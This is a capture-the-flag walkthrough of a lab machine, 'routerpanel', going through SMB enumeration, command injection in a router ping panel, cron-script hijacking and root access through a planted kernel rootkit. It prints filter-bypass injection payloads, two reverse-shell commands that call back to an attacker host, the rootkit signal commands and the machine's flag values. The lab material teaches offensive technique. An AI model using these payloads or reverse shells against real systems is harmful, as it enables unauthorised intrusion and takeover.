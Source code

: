 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got anonymous login enabled at `smb`, let's check it out:


```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![Pasted image 20250423162152.png](../../IMAGES/Pasted%20image%2020250423162152.png)

We got a file, let's get it and view the contents:

![Pasted image 20250423163005.png](../../IMAGES/Pasted%20image%2020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![Pasted image 20250423163046.png](../../IMAGES/Pasted%20image%2020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![Pasted image 20250423163143.png](../../IMAGES/Pasted%20image%2020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![Pasted image 20250423163528.png](../../IMAGES/Pasted%20image%2020250423163528.png)


Let's begin exploitation


# EXPLOITATION
---

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![Pasted image 20250423163619.png](../../IMAGES/Pasted%20image%2020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b      # URL-encoded ; (semicolon)
%26      # URL-encoded & (ampersand)
%7c      # URL-encoded | (pipe)
%0a      # URL-encoded newline (\n)
%09      # URL-encoded tab (space bypass)
%20      # URL-encoded space
+        # Often treated as a space in form data
${IFS}   # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![Pasted image 20250423164508.png](../../IMAGES/Pasted%20image%2020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```


![Pasted image 20250423164854.png](../../IMAGES/Pasted%20image%2020250423164854.png)

If we check our listener:

![Pasted image 20250423164905.png](../../IMAGES/Pasted%20image%2020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250423165109.png](../../IMAGES/Pasted%20image%2020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![Pasted image 20250423165916.png](../../IMAGES/Pasted%20image%2020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory atÂ `~/backup`Â (likelyÂ `/home/www-data/backup`Â since it's owned byÂ `www-data`).
    
2. CopiesÂ **all files**Â fromÂ `/home/athena/notes/*`Â into the backup directory.
    
3. Zips the backup intoÂ `notes_backup.zip`.
    
4. Deletes allÂ `.txt`Â andÂ `.sh`Â files inÂ `/home/athena/backup/`.
    
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![Pasted image 20250423170454.png](../../IMAGES/Pasted%20image%2020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![Pasted image 20250423170829.png](../../IMAGES/Pasted%20image%2020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![Pasted image 20250423171008.png](../../IMAGES/Pasted%20image%2020250423171008.png)


This rootkit refers to something called `Diamorphine`, let's check the repo:

![Pasted image 20250423171043.png](../../IMAGES/Pasted%20image%2020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![Pasted image 20250423171951.png](../../IMAGES/Pasted%20image%2020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![Pasted image 20250423174845.png](../../IMAGES/Pasted%20image%2020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![Pasted image 20250423175116.png](../../IMAGES/Pasted%20image%2020250423175116.png)


